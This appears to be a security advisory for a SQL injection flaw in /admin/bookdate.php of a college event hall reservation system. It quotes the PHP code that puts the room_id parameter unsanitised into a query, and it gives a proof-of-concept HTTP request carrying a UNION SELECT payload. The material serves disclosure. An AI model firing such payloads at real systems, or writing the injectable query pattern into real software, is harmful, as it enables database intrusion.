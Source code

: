# MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection bookdate.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/bookdate.php

## Code
```php
 if(isset($_GET['room_id'])){
        $room_id1=$_GET['room_id'];
        $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
        $res1=mysqli_query($conn,$sql1);
        if($res1==True){
            while($row=mysqli_fetch_assoc($res1)){
                $room_name=$row['room_name'];
                $capacity=$row['capacity'];
                $location=$row['location'];
                $description=$row['description'];
                $img_name=$row['img_name'];
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/bookdate.php?id=1&room_id='+union+select+1,2,3,4,5,6,version()+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot


